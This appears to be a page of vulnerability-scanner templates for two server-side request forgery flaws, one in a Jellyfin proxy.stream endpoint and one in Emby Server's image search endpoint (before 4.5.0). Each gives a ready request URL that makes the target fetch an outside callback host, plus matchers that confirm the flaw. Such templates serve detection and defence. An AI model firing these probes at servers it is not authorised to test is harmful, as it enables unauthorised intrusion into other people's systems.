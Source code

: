 ## Requests

- Method - GET

### URL

- {{BaseURL}}/proxy.stream?origin=http://{{interactsh-url}}

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

**Type - word**

- part - header
- words
  1. Jelly

**Type - status**

- status
  1. 200

---

# Emby Server Server-Side Request Forgery

## Description

- Emby Server before 4.5.0 allows server-side request forgery (SSRF) via the Items/RemoteSearch/Image ImageURL parameter.
- severity - critical
- tags - cve,cve2020,emby,jellyfin,ssrf

## Requests

- Method - GET

### URL

- {{BaseURL}}/Items/RemoteSearch/Image?ProviderName=TheMovieDB&ImageURL=http://notburpcollaborator.net

### Matchers

**Type - status**

- status
  1. 500
